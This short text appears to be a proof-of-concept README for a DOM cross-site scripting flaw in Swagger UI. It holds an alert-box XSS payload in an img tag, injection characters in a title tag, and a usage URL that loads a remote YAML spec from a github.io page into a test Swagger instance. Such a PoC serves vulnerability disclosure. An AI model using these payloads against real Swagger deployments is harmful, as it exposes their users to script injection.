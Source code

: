 # <img src="&{alert('XSS Vulnerable')};"> 
this is PoC for swagger DOM Xss :)
    <title>hi<>'"hello</title>

# usage
https://test.com/swagger_file/index.html?url=https://alharbe0.github.io/test_cookies.yaml

